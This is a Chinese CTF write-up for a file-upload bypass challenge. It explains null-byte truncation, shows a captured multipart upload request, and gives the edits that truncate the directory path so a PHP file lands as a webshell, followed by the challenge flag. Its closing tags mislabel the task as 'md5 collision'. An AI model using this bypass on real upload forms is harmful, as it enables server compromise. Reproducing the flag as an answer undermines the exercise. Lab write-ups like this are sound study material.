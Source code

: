# 上传绕过

## 题目

> http://ctf.nuptzj.cn/challenges#%E4%B8%8A%E4%BC%A0%E7%BB%95%E8%BF%87 
>
> 提示:猜猜代码怎么写的 

## 解答思路

- 0x00截断

  > 0x00截断，00截断是将上传文件名或路径名中使用ascll码值为0的字符（也就是null）来进行截断
  >
  > %00一般用在URL中用于截断url来进行文件包含，两者原理都一样，都是ascll为0的字符，只是形式不同而已。

   ```php
  <% 
  path="upfiles/picture/" 
  file="XXX.jpg" 
  upfilename=path & file '最后的上传地址 
  %>
  大家应该能清楚的看懂这个意思，path为上传的路径，file是生成的文件名，而upfilename则是最终上传后路径，试想一下，如果path是用户可以控制的，那么截断漏洞就产生了。比如我更改的path为upfiles/picture/1.aspchr(0)&XXX.jpg,chr(0)会忽略后面的东西，看看，upfiles/picture/1.asp，很熟悉吧一个webshell就这样诞生了。
   ```

- 本题无法在文件名处截断，只有文件夹路径可以用来截断，同时需要将文件名的后缀修改为合法值来通过过滤


## 解题步骤

1. 设置bp拦截，上传文件，得到原始发送请求

   ```http
   POST /web5/21232f297a57a5a743894a0e4a801fc3/upload.php HTTP/1.1
   Host: teamxlc.sinaapp.com
   Proxy-Connection: keep-alive
   Content-Length: 386
   Cache-Control: max-age=0
   Origin: http://teamxlc.sinaapp.com
   
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   
   ------WebKitFormBoundaryBsjUFBJGSNjbqTOl
   Content-Disposition: form-data; name="dir"
   
   /uploads/
   ------WebKitFormBoundaryBsjUFBJGSNjbqTOl
   Content-Disposition: form-data; name="file"; filename="php.php"
   Content-Type: application/octet-stream
   
   
   ------WebKitFormBoundaryBsjUFBJGSNjbqTOl
   Content-Disposition: form-data; name="submit"
   
   Submit
   ------WebKitFormBoundaryBsjUFBJGSNjbqTOl--
   ```

2. 修改post请求

   将`/uploads/`修改为：`/uploads/php.php `，并在16进制状态下，将空格20修改为00

   将` filename="php.php"`修改为` filename="php.php.jpg"`

3. 提交后得到flag

   > flag:nctf{welcome_to_hacks_world} 

## 漏洞挖掘思路

- todo

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5 collision`
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

